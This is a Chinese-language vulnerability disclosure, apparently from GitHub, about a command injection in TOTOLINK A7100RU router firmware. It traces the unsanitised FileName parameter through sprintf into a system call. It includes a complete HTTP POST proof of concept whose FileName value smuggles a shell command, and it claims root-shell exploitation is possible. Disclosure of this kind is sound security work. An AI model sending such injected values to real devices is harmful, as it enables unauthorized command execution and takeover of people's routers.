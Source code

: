 # TOTOlink A7100RU(V7.4cu.2313_B20191024)路由器存在命令注入漏洞

## 写在前面

厂商信息：http://totolink.net/

固件下载地址：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## 1.影响版本

![img](img/wps34.jpg) 

 

图1为固件版本信息

## 2.漏洞细节

![image-20220719222459576](img/image-20220719222459576.png)

程序通过获取FileName参数的内容传递给v3

![image-20220719222530997](img/image-20220719222530997.png)

之后通过sprintf函数，将v3格式化进v44的栈中，最后通过cstesystem函数执行v44中的内容，存在命令注入漏洞

## POC

```jsx
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urencoded; charset=UTF-8
Origin: <http://192.168.0.1>
Referer: <http://192.168.0.1/adm/status.asp?timestamp=1647872753309>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/setOpenVpnCertGenerationCfg",
"FileName":"1$(ls>/tmp/123;)"}
```

复现结果如下

![img](img/wps35.jpg) 

 

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

![img](img/wps36.jpg) 

 